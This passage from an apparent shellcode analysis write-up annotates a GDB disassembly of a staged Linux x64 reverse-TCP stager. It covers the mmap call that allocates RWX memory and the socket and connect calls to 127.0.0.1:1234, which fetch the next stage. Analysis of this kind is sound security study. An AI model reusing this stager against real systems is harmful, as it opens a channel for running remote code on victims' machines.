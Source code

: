 analyze the first 20 instruction, to see what will happen:

    gef➤  x/20i 0x400078
    => 0x400078:    xor    rdi,rdi
    ; 0x9 syscall refers to sys_mmap, let's man it:
    ; void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);
    ;                ^^ rdi,        ^^ rsi,   ^^ rdx,    ^^ r10,  ^^ r8,        ^^ r9);
    0x40007b:    push   0x9
    0x40007d:    pop    rax
    0x40007e:    cdq
    ; interesting move here, they split dx in dh+dl as saw at 0x40008b
    ; resulting protection will be 1007, that means rwx
    0x40007f:    mov    dh,0x10
    ; and to reuse code, they also put dh (0x10, but it's really 0x1000 so 4096 bytes)
    ; in rdx to specify length
    0x400081:    mov    rsi,rdx
    ; zero offset, to start from the very beginning of already xored rdi
    0x400084:    xor    r9,r9
    ; 0x22 flag could be like 0x20+0x2, that reading from grep -r \ MAP_ /usr/include/
    ; leads to PRIVATE and ANONYMOUS
    0x400087:    push   0x22
    0x400089:    pop    r10
    0x40008b:    mov    dl,0x7
    ; do the actual mmap
    0x40008d:    syscall

after the syscall, i will x/20i 0x40008d:

    ; if everythings ok, go on
    0x40008f:    test   rax,rax
    0x400092:    js     0x4000e5
    0x400094:    push   0xa
    0x400096:    pop    r9
    0x400098:    push   rax
    ; syscall id 0x29 is sys_socket, we can skim this because already
    ; analyzed for the stageless payload
    0x400099:    push   0x29
    0x40009b:    pop    rax
    0x40009c:    cdq
    0x40009d:    push   0x2
    0x40009f:    pop    rdi
    0x4000a0:    push   0x1
    0x4000a2:    pop    rsi
    0x4000a3:    syscall

let's x/20i 0x4000a5 to read the code after syscall:

    ; at 0x4000bd we see that the syscall will be sys_connect. struct is
    ; defined at 0x4000ac and points to 127.0.0.1:1234 as discussed for the
    ; stageless one
    0x4000a5:    test   rax,rax
    0x4000a8:    js     0x4000e5
    0x4000aa:    xchg   rdi,rax
    0x4000ac:    movabs rcx,0x100007fd2040002
    0x4000b6:    push   rcx
    0x4000b7:    mov    rsi,rsp
    0x4000ba:    push   0x10
    0x4000bc:    pop    rdx
    0x4000bd:    push   0x2a
    0x4000bf:    pop    rax
    0x4000c0:    syscall
